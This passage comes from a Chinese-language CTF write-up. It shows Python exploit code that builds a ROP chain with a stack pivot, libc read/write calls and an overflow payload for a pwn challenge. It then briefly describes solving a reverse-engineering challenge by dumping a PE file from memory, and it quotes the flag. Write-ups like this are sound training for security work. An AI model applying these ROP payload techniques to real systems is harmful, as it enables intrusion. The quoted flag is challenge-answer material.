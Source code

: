 ```python=

mov_rsp_chain += p64(libc_pop_rsp_ret) + p64(rbp - 0x70 + len(filename)) # Move $rsp


rop_chain = b""
rop_chain += p64(libc_read_addr)

rop_chain += p64(libc_pop_rdi_ret) + p64(1)
rop_chain += p64(libc_write_addr)
```

所以送出去的 payload 長這樣：

```python=
payload = (
    filename
    + rop_chain
    + b"A" * (112 - len(filename) - len(rop_chain))
    + p64(rbp)
    + mov_rsp_chain
)
r.sendline(payload)
```

以下為解出 $\text{Flag}$ 的照片：

![image](https://hackmd.io/_uploads/r1ASYbO_T.png)

# Flag Generator

- $\text{Type}$: $\text{Reverse}$
- $\text{Points}$: $100$
- $\text{Solved Time}$: January 5th, 4:40:24 PM
- $\text{Flag}$: `AIS3{U$1ng_w1Nd0w5_I$_sUch_a_p@In....}`

花了不到半小時就解出來了，主要因為他是 Lab 題的弱化版吧。

簡單 IDA 看了一下，發現他會寫檔耶，那直接跑起來好了：

![image](https://hackmd.io/_uploads/Hkps5ZOuT.png)

結果出來的是個 0 bytes 的 `flag.exe`，看一下 code，哇居然忘了寫檔：

![image](https://hackmd.io/_uploads/Hy6ljWuuT.png)

不過要寫的東西已經在 heap 上了，直接動態跑起來停在 `writeFile` 的函式上，找一下 PE file 的 address 在哪，去 dump PE 檔就好，要寫的 size 也已經很好心的告訴我們是 `0x600` 了：

![image](https://hackmd.io/_uploads/r1gHV3Z_u6.png)

以下為解出 $\text{Flag}$ 的照片：

![image](https://hackmd.io/_uploads/HJmY3-OdT.png)
